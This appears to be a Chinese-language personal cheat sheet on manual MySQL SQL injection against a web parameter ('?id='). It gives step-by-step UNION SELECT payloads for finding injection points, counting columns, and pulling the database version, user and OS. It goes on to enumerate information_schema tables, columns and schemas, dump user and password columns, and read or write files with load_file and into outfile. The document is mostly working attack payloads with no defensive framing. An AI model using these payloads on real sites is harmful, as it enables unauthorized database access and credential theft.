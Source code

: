 # SQL注入

##  一、MySqL 

![img](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623828836935-8e18a301-2a6e-4457-97f1-1859cd4ddb00.png)

### 一 、同站

1. 判断是否有注入点
   * and 1=1 页面正常
   * and 1=2 页面异常
   * 如果这两个都没有异常，那就试试字符集 ?id=1'
2. 通过order by判断注入的字段数（猜一下）
   * 页面错误与正常的临界点就是字段数
   * 通过union 来测试
3. 让id=负数或者and1=2让网页报错，报错的那几个数字记住，那个数字报错就在哪里查
   * **比如2，3报错，可以 ············union  select 1，version(),database()，4**

4. 信息收集 

   * 数据库版本：version()
   * 数据库名字：database()
   * 数据库用户：user()
   * 操作系统：@@version_compile_os

5. 在mysql5.0以后的版本存在一个information_schema数据库、里面存储记录数据库名、表名、列名的数据库，相当于可以通过information_schema这个数据库获取到数据库下面的表名和列名

6. 获取相关信息

   1.  ? id=-1union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='     '
   2.  ? id=-1union select 1,group_concat(column_name),3 from information_schema.columns where table_name='     '
   3. ? id=-1union select 1,group_concat(user),group_concat(password) from   ____

   * information_schema.schemata           #information_schema下面的所有数据库名
   * information_schema.tables			#information_schema下面的所有表名
   * information_schema.columns		    #information_schema下面所有的列名
   * table_name										                             #表名
   * column_name										                         #列名
   * table_schema									                          #数据库名
   * schema_name                                                                                             #数据库列表ming名

### 二 、跨库查询

*   ? id=-1union select 1,group_concat(schema_name),3 from information_schema.schemata

### 三、文件读写函数

* load_file						文件读取
* into outfile 或into dumpfile		文件写入
